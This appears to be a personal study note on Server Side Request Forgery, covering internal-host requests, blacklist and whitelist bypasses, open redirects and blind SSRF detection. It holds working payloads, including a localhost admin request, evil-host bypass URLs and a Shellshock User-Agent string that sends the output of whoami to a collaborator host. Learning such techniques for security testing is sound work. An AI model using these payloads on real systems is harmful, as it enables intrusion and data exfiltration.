 # Server Side Request Forgery
SSRF is a vuln which makes a server to make requests to unintended location  
For example we can make server app which makes requests to external API, request loopback address
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```
In such case attacker could potentially bypass any restrictions of admin panel, because request is made from authorized server.  

Also we can craft arbitrary request to another back-end internal server, providing its IP in palcve of 127.0.0.1  
Also we can scan full network range (e.g. 192.168.0.x) to detect any differing responses (for example 404 after 500) and detect active and available back-end servers.  

## Bypassing protection
### Black-list
Common protection is black-listing of some common things such as 127.0.0.1, localhost or /admin. To bypass this we can try:
* alternative IP representation of 127.0.0.1 such as 2130706433, 017700000001, or 127.1
* Register own domain name which resolves to 127.0.0.1. We can use spoofed.burpcollaborator.net for this purpose.
* Obfuscate blocked strings using URL encoding (or double encoding) or case variation.
* Provide a URL which you control that redirects to target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an http: to https: URL during the redirect has been shown to bypass some anti-SSRF filters. 

### White-list  
We can bypass white-lsiting by such techniques:
* credentials: `https://expected-host:fakepassword@evil-host`
* DNS hierarchy leveraging: `https://expected-host.evil-host`
* \# to indicate a URL fragment: `https://evil-host#expected-host`
* URL-encoding or double-encoding
* combinations of this techniques
### Open-redirect
`/product/nextProduct?currentProductId=6&path=http://evil-user.net`  

## Blind SSRF
We can detect blind ssrf with OAST techniques  
DNS-lookup for collaborator server  
We can put malicious URL into Referer header  
Also we can exploit shellshock vulnerabiulity, pasting such exploit into User-Agent header:  
`() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`  
And from this pooint we can change hosts on which we execute command with Referrer header, so we can force interaction with burp collaborator from internal server.  
